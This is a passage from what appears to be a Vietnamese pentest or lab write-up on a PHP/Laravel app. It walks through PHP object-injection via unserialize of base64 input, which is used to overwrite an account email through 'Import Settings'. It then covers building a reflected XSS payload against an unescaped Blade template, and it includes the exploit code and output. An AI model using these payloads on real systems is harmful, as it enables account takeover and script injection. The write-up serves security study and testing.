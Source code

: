 3. **Kết quả**:  
   - Lệnh `php exploit.php` trả về chuỗi Base64:  
     ```
     TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRp...SNIP...WMiO3M6MTE6ImRlZmF1bHQuanBnIjt9
     ```

4. **Kiểm tra cục bộ**:  
   - File `target.php` mô phỏng cách ứng dụng xử lý dữ liệu nhập:
     ```php
     <?php
     include('UserSettings.php');
     $userSettings = unserialize(base64_decode($argv[1]));
     print('$user->name = ' . $userSettings->getName() . "\n");
     print('$user->email = ' . $userSettings->getEmail() . "\n");
     print('$user->password = ' . $userSettings->getPassword() . "\n");
     print('$user->profile_pic = ' . $userSettings->getProfilePic() . "\n");
     ?>
     ```
   - Chạy lệnh:  
     ```bash
     php target.php TzoyNDoiQXBwXEhlbHBlcnNcVXNl...SNIP...WMiO3M6MTE6ImRlZmF1bHQuanBnIjt9
     ```
   - Kết quả:
     ```
     $user->name = pentest
     $user->email = [email protected]
     $user->password = $2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
     $user->profile_pic = default.jpg
     ```

5. **Thử nghiệm thực tế**:  
   - Chèn chuỗi Base64 vào tính năng **Import Settings**.  
   - Email tài khoản được cập nhật thành `[email protected]`.

---

#### **2.2. Reflected XSS**

1. **Xác định vị trí lỗ hổng**:  
   - Tên người dùng được hiển thị lại trên giao diện thông qua biến `ie-message` mà không được mã hóa HTML.  
   - Mã nguồn tại `resources/views/settings.blade.php`:  
     ```html
     <p class="text-success">{!! Session::get('ie-message') !!}</p>
     ```

2. **Tạo payload XSS**:  
   - Cập nhật file `exploit.php` để tạo tên người dùng chứa mã JavaScript:  
     ```php
     <?php
     include('UserSettings.php');
     echo base64_encode(serialize(new \App\Helpers\UserSettings(
         '<script>alert(1)</script>', 
         '[email protected]', 
         '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 
         'default.jpg')));
     ?>
     ```
